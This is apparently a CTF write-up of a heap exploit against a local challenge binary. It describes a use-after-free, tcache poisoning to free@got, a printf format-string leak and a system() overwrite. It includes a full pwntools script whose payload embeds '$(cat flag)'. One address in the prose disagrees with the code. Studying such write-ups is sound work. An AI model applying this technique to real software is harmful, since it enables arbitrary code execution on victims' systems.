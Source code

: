 ## Level: Medium

### Challenge

My first heap challenge, thank you @p0ch1ta for this super cool challenge. The intended way is **House of Muney** which is *leaklesss* heap exploit but I cheese'd it with getting a **leak** :)

More about House of Muney: https://maxwelldulin.com/BlogPost/House-of-Muney-Heap-Exploitation

### Checksec

![checksec](https://github.com/user-attachments/assets/c7e637d7-c3d5-4471-8c6a-f4e995039adf)

### How to leak? 

![menu](https://github.com/user-attachments/assets/2b949dc9-4cb1-4208-8fc7-b56701a8e267)

They give us an obvious vulnerability with `2. Change chunk size` but I didn't use it :P There is already **UAF** in this binary and I think that's all you need to get a shell. 

**TLDR: Create a fake chunk using UAF and overwrite free@got with printf to leak an address in libc then overwrite it again with system("/bin/sh")**

Here's my approach (The order matters!!):

```
1 - Malloc chunk 0 and chunk 1
2 - Free 1 then and 0
```

![free2](https://github.com/user-attachments/assets/baacd9f6-ec15-419b-a1d4-6fb438b15b0b)

Mind that `chunk 0` is behind `chunk 1`. 

```
3 - Edit free'd chunk 0 to fake a chunk (UAF)
```
![uaf1](https://github.com/user-attachments/assets/9078a95b-29db-4884-9abd-1af8c2f3f638)

Now `chunk 0` is pointing to `AAAAAAAA` instead of pointing to the `next chunk` (chunk 1). Of course we don't want chunk 0 to point some random address. We can make it point to a **mallocable** address close to free@got. 

![gotoffree](https://github.com/user-attachments/assets/406238ec-be12-4aa0-a2b1-75f209ac626e)

There are some caveats to fake a chunk and turns out `0x453508` is perfect. It's near got entries and most importantly mallocable. Make sure that `chunk 0 and 1` have *enough size* when we're reading into them to overwrite **free@got**. Which is at least `40 bytes` in this case. 

```
4 - Malloc twice so fake chunk gets allocated and points to near free@got
```

![empty](https://github.com/user-attachments/assets/6ef3a766-c2a5-41ad-b77d-f7ba363b9acb)

Tcache is empty, this means that our `fake chunk` is allocated. 

```
5 - Use "4. Edit chunk" option to start reading into fake chunk's next pointer. Which is somewhere near got entries. 
```

![readgots](https://github.com/user-attachments/assets/2c7867b9-1328-412e-94ab-78acb88873b8)

This looks good! But how are we going to get a leak? 

```
6 - Overwrite free@got with printf and use format strings to leak from the stack
7 - Free the fake chunk to call printf (specify format strings to leak info about addresses on the stack)
```

![leaksss](https://github.com/user-attachments/assets/89d35390-01fa-4434-b9d1-de18196c3bfd)


Now that we have our leak in libc, we can calculate the offset to `libc base` and we are almost done. 

```
8 - Overwrite free@got again but with system!
9 - Free the fake chunk to call system("/bin/sh")
```

![flaggg](https://github.com/user-attachments/assets/9999e3cf-a772-47a6-a610-841707b260e3)

Getting a shell was quite painful so I just write out the flag. This was really fun even tho it wasn't intented solution! I think I learned a lot from this and I must include following writeups that inspired me for this solution:

https://www.youtube.com/watch?v=qVLXHNqxpkE (by c0nrad)

https://github.com/MarcoPellero/writeups/blob/main/backdoor/konsolidator/writeup.md

### Full Exploit

```python
#!/usr/bin/env python3

from pwn import *
"""
p = gdb.debug("./chall_patched", gdbscript='''
    continue 
''')
"""

p = process("./chall_patched")

# allocate two chunks
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("0")
p.recvuntil(b">> ")
p.sendline(b"40")

p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(b"40")

# free them 
p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("1")

p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("0")

# USE AFTER FREE
# change chunk's pointer to somewhere (mallocable) near got entries
near_got = 0x403508 
p.recvuntil(b">> ")
p.sendline("4")
p.recvuntil(b">> ")
p.sendline("0")
p.recvuntil(b">> ")
p.sendline(p64(near_got))

# malloc twice
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(b"40")

p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(b"40")

# overwrite the got entry of "free" with "printf"
# leak an address in libc with format strings
payload = b"%17$pAAA" # this is rdi
payload += b"A" * 24
payload += p64(0x401120)
p.recvuntil(b">> ")
p.sendline("4")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(payload)

# leak(free) and calculate the offset to "system"
p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("1")

p.recvuntil(b"Data")
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()
p.recvline()

libc_leak = p.recvline()
print(libc_leak)
libc_leak = int(libc_leak[3:17], 16)

libc_base = libc_leak - 544229
print("LIBC_BASE: " + hex(libc_base))

system = libc_base + 336528
print("SYSTEM: " + hex(system))

# overwrite the got entry of "free" with "system"
# write out the flag
payload = b"//bin/sh" # rdi
payload += b" $(cat flag)"
payload += b" " * 12
payload += p64(system)
p.recvuntil(b">> ")
p.sendline("4")
p.recvuntil(b">> ")
p.sendline("1")
p.recvuntil(b">> ")
p.sendline(payload)

# call system("/bin/sh...")
p.recvuntil(b">> ")
p.sendline("3")
p.recvuntil(b">> ")
p.sendline("1")

p.interactive()
```
<p align="center">
<img src=https://media1.giphy.com/media/v1.Y2lkPTc5MGI3NjExemJpd2ZkZ2o5Nnk0cTJsM3F6cnkwY3VlZG51bnloczVyMGhsa29ibiZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/kbuqdYYYjuHn2/giphy.webp>
</p>
